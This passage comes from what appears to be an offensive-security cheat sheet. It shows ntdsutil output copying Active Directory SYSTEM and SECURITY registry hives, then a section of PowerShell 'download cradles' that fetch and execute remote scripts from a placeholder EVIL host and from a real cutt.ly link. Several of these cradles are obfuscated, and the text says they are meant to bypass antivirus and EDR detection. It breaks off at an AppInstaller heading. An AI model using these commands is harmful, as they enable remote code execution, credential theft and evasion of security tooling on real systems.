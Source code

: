 Copying registry files...
Copying c:\ntds\registry\SYSTEM
Copying c:\ntds\registry\SECURITY
IFM media created successfully in c:\ntds
ifm: quit
ntdsutil: quit
```

## Payload Download Cradles: (https://github.com/VirtualAlllocEx)

This are different types of download cradles which should be an inspiration to play and create new download cradles to bypass AV/EPP/EDR in context of download cradle detections. Notice, removing or obfuscating signatures from your download cradle is only one piece of the puzzle to bypass an AV/EPP/EDR. Depending on the respective product you have to modify your payload which should be downloaded by the cradle to bypass API-Hooking, Callbacks, AMSI etc.

```
# not proxy aware cmd download cradles 

# default download cradle 
c:\WInDowS\sySTEM32\cmD.eXE   /c  PoWErSheLl  -nopROfi  -EXe  byPAsS  -wiNDOwsTy  HIDdEN -cOMMA  "IEX (New-Object Net.Webclient).downloadstring(\"http://EVIL/evil.ps1\")"
PoWErSheLl  -nopROfi  -EXe  byPAsS  -wiNDOwsTy  HIDdEN -cOMMA  "IEX (New-Object Net.Webclient).downloadstring(\"http://EVIL/evil.ps1\")"

# obfuscated v1
CMD> c:\wiNdoWs\sysTEM32\CmD  /c  pOWeRshell -WiNDOW  HIddEN -eXECUTI  BYpaSS  -nop  -CoMmanD   "(New-Object Net.WebClient).DownloadString('http://EVIL/evil.ps1')|.( ([String]''.Chars)[15,18,19]-Join'')"
CMD> pOWeRshell -WiNDOW  HIddEN -eXECUTI  BYpaSS  -nop  -CoMmanD   "(New-Object Net.WebClient).DownloadString('http://EVIL/evil.ps1')|.( ([String]''.Chars)[15,18,19]-Join'')"

# proxy aware cmd download cradles

# default download cradle
c:\wInDOwS\sysTem32\CmD   /cPowErShell -wINdowstYL  Hi  -nop -eXecU ByPAss -COm    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $c.downloadstring(\"https://cutt.ly/syFzILs\")"
PowErShell -wINdowstYL  Hi  -nop -eXecU ByPAss -COm    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $c.downloadstring(\"https://cutt.ly/syFzILs\")"

# obfuscated v1
C:\WINdOWS\SySteM32\CmD.EXe  /cpOWershEll  -eXecut byPaSS -Noprof  -w  H -Co    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;`i`e`x $c.downloadstring(\"ht\"+\"tps://cutt.ly/syFzILs\")"
poWershELl -execUT byPAss -WINDo  1  -nopR  -comm  "& ((vARiaBlE '*mdr*').Name[3,11,2]-JoiN'') ((('{2}c=new-obj'+'ect ne'+'t.'+'webclient;{2'+'}'+'c.p'+'roxy='+'[Net'+'.'+'WebR'+'equest]::'+'GetS'+'yst'+'emWebP'+'ro'+'x'+'y();{'+'2}c'+'.Pr'+'oxy.Cre'+'dentials=[Net'+'.Cr'+'edentialC'+'ache]::D'+'e'+'fau'+'l'+'tCredenti'+'als'+';{0}i{0}e'+'{0}x {'+'2}c.downl'+'oa'+'ds'+'t'+'ring({1}ht{1}+{1'+'}t'+'ps'+':'+'/'+'/'+'cutt.ly/syFzIL'+'s{1})') -F  [cHAR]96,[cHAR]34,[cHAR]36))"
```

## AppInstaller Download Cradle:

```

[VICTIM]: PS C:\Users\Victim\Documents>